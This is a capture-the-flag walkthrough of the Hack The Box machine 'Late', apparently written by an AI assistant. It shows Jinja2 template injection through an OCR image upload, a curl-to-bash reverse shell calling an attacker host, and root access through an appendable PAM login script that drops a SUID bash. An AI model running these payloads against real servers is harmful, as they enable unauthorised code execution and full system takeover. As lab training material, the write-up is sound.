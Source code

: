 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## ⚙️ Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.156
nmap -p 22,80 -sCV 10.10.11.156
```
- **Open Ports**:
  - `22/tcp`: [SSH](SSH) - OpenSSH 7.6p1 (Ubuntu 18.04)
  - `80/tcp`: [HTTP](HTTP.md) - nginx 1.14.0

### Hosts File Entry
```bash
echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```

### Fuzzing Subdomains
```bash
wfuzz -u http://10.10.11.156 -H "Host: FUZZ.late.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```
- Found: `images.late.htb`

### images.late.htb
- Online image OCR interface.
- Upload image ➔ converts to text ➔ returned as `results.txt`
- Mentions **Flask** backend

---

## 🚀 Initial Foothold (svc_acc)

### Vulnerability Discovery
- Image upload returns parsed text in a rendered Flask template.
- Test with image containing:
```
{{ 7*7 }}
```
- Returned: `49` ➔ **SSTI confirmed**

### Payload Trials
- Use [PayloadsAllTheThings Jinja2 RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Injection/README.md#jinja2)
- Payload:
```jinja
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```
- **Font Troubleshooting**:
  - Use **FreeMono** or similar monospaced font.
  - Goal: Accurate character recognition (underscores, parens, quotes)

### Reverse Shell
```jinja
{{ cycler.__init__.__globals__.os.popen("curl http://10.10.14.6/r | bash").read() }}
```
Create `/r` file on local server:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```
Then:
```bash
python3 -m http.server 80
nc -lnvp 443
```
- Shell returned as `svc_acc`

---

## 🔒 Privilege Escalation to root

### File Enumeration
```bash
ls -l /usr/local/sbin/ssh-alert.sh
lsattr /usr/local/sbin/ssh-alert.sh
```
- `ssh-alert.sh` runs on SSH login (from `/etc/pam.d/sshd`)
- Has **append-only (a)** extended attribute
- Script is **owned by svc_acc** and **appendable**

### Exploit via SSH Login Trigger
Append reverse shell prep to the script:
```bash
echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh
```
Then re-login via SSH:
```bash
/tmp/.0xdf -p
```
- Root shell acquired.

---

## 🔊 Flags

### User
```bash
cat /home/svc_acc/user.txt
```

### Root
```bash
cat /root/root.txt
```

---

## 🔜 Beyond Root
- Debug web stack:
  - Nginx ➔ Gunicorn ➔ Flask App
- Logins trigger `pam_exec.so` ➔ `ssh-alert.sh` ➔ Email alert
- Overwrite abuse via append-only shell drop

---

Let me know if you want this converted for Obsidian, PDF, or Markdown export ✨

